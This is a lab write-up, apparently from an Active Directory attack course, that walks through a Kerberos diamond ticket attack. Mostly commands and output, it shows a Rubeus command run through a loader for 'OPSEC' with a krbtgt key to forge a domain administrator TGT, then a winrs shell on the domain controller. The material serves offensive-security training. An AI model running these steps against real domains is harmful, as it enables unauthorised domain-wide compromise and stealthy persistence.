

# Learning Objective 10 (Diamond Ticket Attack)

## Tasks

1. **Use domain admin privileges obtained earlier (see *Learning Objective 08*) to execute the diamond ticket attack**

---

## Solution

1. **Use domain admin privileges obtained earlier (see *Learning Objective 08*) to execute the diamond ticket attack**

We can simply use the following Rubeus command to execute the attack.
Note that the command needs to be run **from an elevated shell ('run as administrator')**. We take the usual OPSEC care of using Loader.


`whoami /groups`:
```
GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                           Attributes

========================================== ================ ============================================= ===============================================================
Everyone                                   Well-known group S-1-1-0                                       Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Desktop Users               Alias            S-1-5-32-555                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Administrators📌                   Alias            S-1-5-32-544                                  Mandatory group, Enabled by default, Enabled group, Group owner✅
BUILTIN\Users                              Alias            S-1-5-32-545                                  Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\REMOTE INTERACTIVE LOGON      Well-known group S-1-5-14                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\INTERACTIVE                   Well-known group S-1-5-4                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                      Mandatory group, Enabled by default, Enabled group
LOCAL                                      Well-known group S-1-2-0                                       Mandatory group, Enabled by default, Enabled group
dcorp\RDPUsers                             Group            S-1-5-21-719815819-3726368948-3917688648-1123 Mandatory group, Enabled by default, Enabled group
Authentication authority asserted identity Well-known group S-1-18-1                                      Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288
```

In order to perform the diamond ticket attack we need to use the `krbtgt` aes256 key.

`C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args diamond /krbkey:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /tgtdeleg /enctype:aes /ticketuser:administrator /domain:dollarcorp.moneycorp.local /dc:dcorp-dc.dollarcorp.moneycorp.local /ticketuserid:500 /groups:512 /createnetonly:C:\Windows\System32\cmd.exe /show /ptt`:
```
[SNIP]

[*] Action: Diamond Ticket📌

[*] Showing process : True
[*] Username        : MZBPYDM3
[*] Domain          : LYOCO7MX
[*] Password        : B89I5HTT
[+] Process         : 'C:\Windows\System32\cmd.exe' successfully created with LOGON_TYPE = 9
[+] ProcessID       : 3252
[+] LUID            : 0x626d5a

[*] No target SPN specified, attempting to build 'cifs📌/dc.domain.com'
[*] Initializing Kerberos GSS-API w/ fake delegation for target 'cifs/dcorp-dc.dollarcorp.moneycorp.local'
[+] Kerberos GSS-API initialization success!
[+] Delegation requset success! AP-REQ delegation ticket is now in GSS-API output.
[*] Found the AP-REQ delegation ticket in the GSS-API output.
[*] Authenticator etype: aes256_cts_hmac_sha1
[*] Extracted the service ticket session key from the ticket cache: 5Gs8379n58wpVLIc13YhnzmmPL9MOAbONZb0NbtgacY=
[+] Successfully decrypted the authenticator
[*] base64(ticket.kirbi):

[SNIP]

[*] Decrypting TGT
[*] Retreiving PAC
[*] Modifying PAC
[*] Signing PAC
[*] Encrypting Modified TGT

[*] base64(ticket.kirbi):

[SNIP]

[*] Target LUID: 0x626d5a
[+] Ticket successfully imported!🎟️
```

Access the DC using winrs from the new spawned process!




`whoami /groups`:
```
ERROR: Unable to get group membership information.
```
❌

`klist`:
```
Current LogonId is 0:0x626d5a

Cached Tickets: (1)

#0>     Client: administrator🎭 @ DOLLARCORP.MONEYCORP.LOCAL🏛️
        Server: krbtgt📌/DOLLARCORP.MONEYCORP.LOCAL @ DOLLARCORP.MONEYCORP.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x60a10000 -> forwardable forwarded renewable pre_authent name_canonicalize
        Start Time: 2/13/2025 7:09:52 (local)
        End Time:   2/13/2025 17:09:43 (local)
        Renew Time: 2/20/2025 7:09:43 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:
```

`winrs -r:dcorp-dc cmd`:
```
Microsoft Windows [Version 10.0.20348.2762]
(c) Microsoft Corporation. All rights reserved.

C:\Users\Administrator>
```
🚀


`whoami`:
```
dcorp\administrator
```

`hostname`:
```
dcorp-dc
```
🚩

---
---
